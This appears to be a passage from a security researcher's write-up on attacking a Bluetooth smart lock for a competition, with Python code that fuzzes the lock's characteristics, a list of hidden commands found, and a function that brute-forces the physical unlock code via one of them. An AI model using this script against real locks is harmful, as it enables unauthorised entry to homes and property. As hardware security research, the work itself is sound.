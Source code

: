 ```
device.subscribe("0000ffd4-0000-1000-8000-00805f9b34fb",callback=handle_data, wait_for_response=False)
device.subscribe("0000ffdf-0000-1000-8000-00805f9b34fb", indication=False, wait_for_response=True)

payload1 = 0
paddingCounter = 1

# modify payload 2
payload2 = 0

while payload2 != 256:
  while paddingCounter != 19:
    fuzz_function(payload1, payload2, paddingCounter)
    paddingCounter = paddingCounter + 1
  paddingCounter = 1
  payload2 = payload2 + 1

adapter.stop()
```

This script was used against 2 different locks at the same time, and I went through like 10 batteries. It took 2 months to completely fuzz all possible commands, and that includes the amount of times the locks randomly decided to just disconnect.

Thankfully some hidden commands were found:

* `0xC9 0xXX 0xXX 0xXX 0xXX 0xXX 0xXX 0x9C`
* `0xEF 0xXX 0xXX 0xXX 0xXX 0xF1`
* `0xFD 0xXX 0xXX 0xXX 0xXX 0xFC`

I have no idea what the last two commands do, but I did figure out what the first command does: send physical code. So we now have another viable entry for the competition:

```
def guess_physical_method(i):
    physical_code = bytearray([0xc9, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x9c]) # changed to "send physical code"
    if len(str(i)) < 6:
        padding = "0" * (6 - (int(len(str(i)))))
        padding += str(i)
    else :
        padding = str(i)
    code = padding[:0] + '0' + padding[0:1] + '0' + padding[1:2] + '0' + padding[2:3] + '0' + padding[3:4] + '0' + padding[4:5] + '0' + padding[5:6]
    temp_code = bytearray.fromhex(code)
    i2 = 0
    while i2 != 6:
        if temp_code[i2] == 0:
            return
        if temp_code[i2] > 4:
            return
        physical_code[i2+1] = temp_code[i2]
        i2 = i2 + 1
    device.char_write("0000ffd9-0000-1000-8000-00805f9b34fb", physical_code, wait_for_response=False)
    print(padding + " " + code)

def handle_data(handle, value):
    response = hexlify(value)
    if "e0f0000e" in str(response):
        print("Received repsonse (%s)" % str(response))
```
